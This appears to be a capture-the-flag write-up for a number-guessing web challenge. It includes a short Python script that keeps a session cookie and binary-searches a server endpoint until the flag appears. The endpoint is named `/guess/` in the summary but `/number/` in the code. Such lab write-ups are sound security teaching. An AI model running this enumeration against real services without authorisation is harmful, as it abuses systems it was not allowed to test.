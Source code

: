 # Challenge `Guess a BIG number` Writeup

- Vulnerability:
    - Endpoint is vulnerable to brute-force attack

- Where:
    - `/guess/<number>` endpoint

- Impact:
    - Allows to find the server guess by enumeration

## Steps to reproduce

Since the number generated by the server is random, we need to brute-force it. Additionally we know that the number is between 0 and 1000000 and also that the server will return `Higher!` or `Lower!` if the number is not correct.

With this informaton we can do a brute-force attack to find the number using binary search to reduce the number of requests.

Finally, since the server's session is associated with a cookie, all requests must be sent with it.

### Step 1: Get the cookie
Firstly, we need to send a request to `/` to get the cookie.

```python
import requests

link = "http://mustard.stt.rnl.tecnico.ulisboa.pt:23052"
s = requests.Session()
s.get(link)
```

### Step 2: Guess the number using binary search

```python
low = 0
high = 1000000

while True:
    mid = (low + high) // 2
    r = s.get(link + "/number/" + str(mid))

    if "Higher!" in r.text:
        low = mid + 1
    elif "Lower!" in r.text:
        high = mid - 1
    elif "SSof" in r.text:
        print(r.text)
        break
```

With this we can reduce a lot the number of requests and the console will display the flag when the number is found.

## Implementation

The full implementation can be found [here](guess-BIG.py).
